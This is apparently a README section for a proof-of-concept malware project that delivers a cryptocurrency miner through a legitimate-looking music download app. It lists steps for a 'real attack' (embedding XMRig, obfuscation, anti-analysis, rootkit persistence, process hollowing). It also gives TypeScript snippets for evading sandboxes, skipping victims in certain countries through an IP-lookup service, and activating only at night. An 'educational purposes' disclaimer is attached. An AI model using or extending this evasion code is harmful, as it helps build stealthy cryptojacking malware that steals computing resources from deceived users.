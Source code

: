 ## ⚠️ Important Notes

### Real Implementation
In a real attack scenario, instead of creating a text file, you would:

1. **Embed actual XMRig binary** in the payload
2. **Use advanced obfuscation** techniques
3. **Implement anti-analysis** measures
4. **Add rootkit capabilities** for persistence
5. **Use process hollowing** for stealth execution

### Current Implementation
The current code is a **demonstration/proof-of-concept** that:
- Creates a text file instead of binary
- Shows the configuration that would be used
- Demonstrates the delivery mechanism
- Explains the stealth techniques

### Legal Disclaimer
This code is for **educational purposes only**. Using this for actual malicious purposes is illegal and unethical.

## 🛠️ Payload Modifications

### Adding New Stealth Features

1. **Anti-VM Detection**:
```typescript
const detectVM = () => {
  // Check for VM indicators
  return navigator.hardwareConcurrency < 2 || 
         screen.width < 800 || 
         navigator.userAgent.includes('HeadlessChrome');
};
```

2. **Geolocation Filtering**:
```typescript
const checkLocation = async () => {
  const response = await fetch('https://ipapi.co/json/');
  const data = await response.json();
  return !['US', 'UK', 'CA'].includes(data.country_code);
};
```

3. **Time-based Activation**:
```typescript
const shouldActivate = () => {
  const hour = new Date().getHours();
  return hour >= 22 || hour <= 6; // Only activate at night
};
```

This payload system demonstrates sophisticated social engineering combined with technical stealth to deliver cryptocurrency mining malware through a legitimate-looking music download application.